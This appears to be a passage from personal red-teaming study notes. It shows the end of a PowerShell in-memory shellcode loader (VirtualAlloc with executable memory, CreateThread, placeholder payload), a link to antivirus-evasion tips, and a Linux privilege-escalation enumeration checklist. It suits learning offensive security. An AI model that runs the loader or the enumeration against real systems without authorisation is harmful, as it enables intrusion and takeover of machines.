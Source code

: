 ```powershell
    IntPtr lpThreadId);';

$imports = Add-Type -memberDef $code -Name 'Win32' -Namespace Imports -passthru;

[Byte[]]$sc = @(0x0) # a place for the shellcode

$size = 0x1000;

if ($sc.Length -gt 0x1000) { $size = $sc.Length }

$buffer = $imports::VirtualAlloc(0, $size, 0x3000, 0x40);

for ($i = 0; $i -lt $sc.Length; $i++) { 
    $imports::memset([IntPtr]($buffer.ToInt32() + $i), $sc[$i], 1);
}

$imports::CreateThread(0, 0, $buffer, 0, 0, 0);
for (;;) { Start-Sleep 60 };
```
Have [shellter tips](https://www.shellterproject.com/tipstricks/) in handy.  

# Privilege escalation
----------------------
Massive and probably most unknown topic for me. Concepts may seem to be quite straightforward,
but total lack of experience slowing process down significantly. As almost every activity in
red teaming, PE highly relies on thorough enumeration, basically it is not possible to gain
privileged shell without it. There's gazillion of ways to elevate privileges on the boxes and
every little detail about environment might be crucial.  

What might be checked on linux/nix-alike systems manually:

 * `sudo -l` should be the first command issued in the enumeration!
 * get user info - `whoami`, `groups`, `id`, content of `/etc/passwd`
 * executable suid and sgid files
 * dumb world or user writable `/etc/password` is an instant root (have been seen)
 * `chmod` and `chown` is an instant root because of ability to set suid or sgid perms (have been seen)
 * host info may provide useful info - `hostname`, `/etc/issue`, `cat /etc/*-release`, `uname -a`, `arch`
 * running processes - `ps axu`
 * network info:
    1. `ifconfig`, `ip a`
    2. `netstat -antu`, `ss -antp`
    3. `route`, `routel`
 * firewall data like readable iptables configs somewhere under `/etc`, `firewalld` data if available
 * cron jobs and logs, [pspy](https://github.com/DominicBreuker/pspy) is quite useful, `/etc/cron.*`, 
   `/etc/crontab`, `crontab -e`
 * installed software - `dpkg -l`, `rpm -qa`
 * interesting world or user writable directories and files - `find / -type f -writable 2>/dev/null` (files)
 * unmounted partitions, check `mount`, `/etc/fstab`, `lsblk`
 * kernel modules - `lsmod`, `modinfo`
 * check envars - `env`
